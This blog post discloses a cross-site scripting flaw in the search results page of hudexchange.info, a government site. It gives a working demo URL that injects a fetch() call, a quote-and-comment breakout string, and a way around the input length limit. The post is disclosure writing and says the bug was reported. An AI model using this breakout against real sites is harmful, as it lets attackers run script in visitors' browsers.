 ```yaml
---
layout: post
title: 'Execute arbitrary JavaScript on hudexchange.info'
---
```

A few months ago, I discovered a bug in the search results page of hudexchange.info. The bug allows execution of arbitrary JavaScript on the page.

HUD Exchange is an official website of the Department of Housing and Urban Development. It has mostly reference and training materials for people and organizations implementing HUD programs. 

I reported this bug in detail through the contact mechanism on the HUD Exchange site on September 22, 2022.

##Demo

This `fetch()`es my commit info from Github and parses it, then alerts my name.
<https://www.hudexchange.info/search/?dsp=&ct=&collection=&q=%5C%27%3B%20%2F*%20"%3B%20%2F%2F%20*%2F%20fetch%28%22https%3A//api.github.com/repos/trevorgross/installarch/commits%22%29.then%28response%20%3D%3E%20response.json%28%29%29.then%28commits%20%3D%3E%20alert%28commits%5B0%5D.commit.author.name%29%29%3B%20/>

##Why

A user's improperly sanitized search string is inserted into two JavaScript variables in the search results page. The failure to properly sanitize or escape the strings makes it trivial to execute arbitrary JavaScript.

##How

Go to <https://www.hudexchange.info/search>. Start a search query with `\'; /* "; // */` and end it with `//`. Put whatever JavaScript you want between those strings. To get around the text input length limit, add another leading backslash to the first comment string (so it doesn't get stripped when encoding), wrap your JavaScript in the comment strings, encode it all with encodeURI(), and tack the encoded string on to the search URL after ?q=. E.g. ``encodeURI(`\\'; /* "; // */ [YOUR_JS_HERE] //`);``

##Details
On or about line 433 in the results page source, the search string is inserted between single quotes. The string is not properly sanitized first. On this line, the backslash in the leading `\';` is escaped, effectively enclosing one backslash between single quotes, with the `';` closing the string: `'\\';` Your JavaScript comes after this. The final `//` comments out the `';` that usually closes the single-quote-enclosed search string. The `/* */`-style comment is just a comment on this line. Its contents are included to avoid an error later in the page.

The additional `/* "; // */` comment prevents an error when the search string is inserted into a double-quoted variable on or about line 612. The `";` closes the double-quoted string, and the `//` comments out the rest of this variable string. If you're so inclined, you can add more arbitrary JavaScript between the `";` and the `//` within this comment block, and that JavaScript will execute on this line after the JavaScript that executes on line 433. For an example, paste this into the search box and hit enter: `\'; /* "; alert("Line ~612"); // */ alert("Line ~433"); //`

